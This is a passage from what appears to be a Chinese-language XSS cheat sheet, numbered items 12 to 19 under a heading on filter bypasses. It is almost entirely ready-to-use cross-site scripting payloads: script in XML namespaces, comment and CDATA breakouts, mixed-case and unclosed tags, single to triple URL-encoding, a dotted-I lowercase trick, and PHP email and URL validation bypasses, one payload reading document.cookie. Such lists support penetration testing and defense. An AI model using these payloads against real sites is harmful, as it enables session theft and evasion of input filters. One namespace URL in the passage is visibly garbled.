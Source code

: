 12. 在XML页面中使用。

```html
<a:script xmlns:x="http://www.worg/1999/xhtml">alert(1)</a:script>
```

> 如果输入落在注释部分，请添加 "-->" 到Payload。

> 如果输入落在CDATA部分，请添加 "]]>" 到Payload。

### `XSS 速查表（绕过）`

13. 大小写混合使用。

```html
<Script>alert(document.cookie)</Script> 
```

14. 未闭合标签。

```html
<svg onload="alert(1)"
```

15. 大写Payload。

```html
<SVG ONLOAD=AL

ERT(1)>
```

16. 编码XSS。

```html
(已编码)
%3Csvg%20onload%3Dalert(1)%3E 

(双重编码)
%253Csvg%2520onload%253Dalert%281%29%253E 

(三重编码)
%25253Csvg%252520onload%25253Dalert%25281%2529%25253E 
```

17. JS中使用小写输入。

```html
<SCRİPT>alert(1)</SCRİPT>
```

18. PHP电子邮件验证绕过。

```html
<svg/onload=alert(1)>"@gmail.com
```

19. PHP URL验证绕过。

```html
javascript://%250Aalert(1)
```
